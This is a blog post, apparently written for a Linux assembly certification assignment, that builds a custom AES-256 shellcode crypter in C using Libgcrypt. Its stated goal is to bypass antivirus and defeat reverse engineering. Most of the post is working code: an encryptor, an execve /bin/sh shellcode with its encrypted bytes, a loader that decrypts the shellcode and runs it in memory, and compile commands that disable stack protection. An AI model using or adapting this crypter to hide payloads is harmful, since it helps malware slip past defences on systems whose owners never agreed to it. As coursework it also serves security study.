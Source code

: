 ```yaml
---
layout: post
title: CUSTOM_CRYPTER – LINUX/X86
excerpt_separator: <!--more-->
---
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification
* Student ID: SLAE-1233
* Assignment: 7
* Github: [Kartik Durg](https://github.com/kartikdurg)
<!--more-->

___

In this post we will aim to create a custom shellcode crypter. This crypter program will encrypt our shellcode and then execute it after successful decryption at runtime, in order to bypass anti-virus and defeat reverse engineering analysis.

References:

* [Advanced Encryption Standard](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard)
* [Libgcrypt](https://www.gnupg.org/software/libgcrypt/index.html)
* [The Libgcrypt Reference Manual](https://www.gnupg.org/documentation/manuals/gcrypt.pdf)

For this post I decided to use C language, to encrypt/decrypt our shellcode using advanced encryption standard with 256-bits which wouldn’t be so easy without “Libgcrypt”.

“Libgcrypt” is basically a cryptographic library that provides methods to all cryptographic building blocks. For example: AES, Camellia, CAST5, ChaCha20,etc…

The C code below represents the usage of Libgcrypt library for our shellcode encryption:

```
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <gcrypt.h>

//Hardcoded password
const char *key = "iamjboyy";
//Setup IV
uint8_t iv[16] = {0x05};

uint8_t shellcode[] = <"YOUR_SHELLCODE_HERE>";

int main(){

int i, cipher = gcry_cipher_map_name("aes256");
size_t len = strlen(shellcode);
uint8_t *encrypt = malloc(len);

gcry_cipher_hd_t hd;
//Open cipher
gcry_cipher_open(&hd, cipher, GCRY_CIPHER_MODE_OFB, 0);
//Set key for cipher
gcry_cipher_setkey(hd, key, 16);
//Set iv
gcry_cipher_setiv(hd, iv, 16);
//Encrypt
gcry_cipher_encrypt(hd, encrypt, len, shellcode, len);

printf("Encrypted shellcode: \n");
for(i=0; i<len; i++){
printf("\\x%02x", encrypt[i]);
}
printf("\n");

return 0;
}
```

Now, lets make use of “exceve-stack” shellcode  and then encrypt the same using our crypter:

```
==> execve-stack:
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"
```

Compiling the code:

```
gcc encrypt_shellcode.c -o encrypt_shellcode -lgcrypt -fno-stack-protector -z execstack
```

Once executed it encrypts the above generated shellcode as below:

![](/media/7-crypter-1.jpg)

___

Now that we have an encrypted shellcode, lets decrypt and execute it using the below C code:

```
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <gcrypt.h>

//Hardcoded password
const char *key = "iamjboyy";
//Setup IV
uint8_t iv[16] = {0x05};


uint8_t shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80";

uint8_t encryptedshellcode[] = "\x3f\x60\xc7\xf5\xc3\x39\xc8\x42\x7e\x65\xc2\x40\xf3\x5c\xfc\x46\x15\x50\x2b\xc0\x9e\xde\xcf\xa5\xef";

int main(){

    int i, cipher = gcry_cipher_map_name("aes256");
    size_t len = strlen(shellcode);
    uint8_t *decrypt = malloc(len);

    gcry_cipher_hd_t hd;
    //Open cipher
    gcry_cipher_open(&hd, cipher, GCRY_CIPHER_MODE_OFB, 0);
    //Set key for cipher
    gcry_cipher_setkey(hd, key, 16);
    //Set iv
    gcry_cipher_setiv(hd, iv, 16);
    //Decrypt
    gcry_cipher_decrypt(hd, decrypt, len, encryptedshellcode, len);
    
    int (*ret)() = (int(*)())decrypt;
    printf("Running shellcode...\n");
    ret();
	
    gcry_cipher_close(hd);
    free(decrypt);
    return 0;
}
```

Compiling and executing the shellcode:

```
gcc decrypt_shellcode.c -o decrypt_shellcode -lgcrypt -fno-stack-protector -z execstack
```

![](/media/7-crypter-2.jpg)

As noticed, our shellcode was well decrypted and executed.

___

[https://github.com/kartikdurg/SLAE/tree/master/Assignment_0x7](https://github.com/kartikdurg/SLAE/tree/master/Assignment_0x7)

Thank you for reading 🙂

– Kartik Durg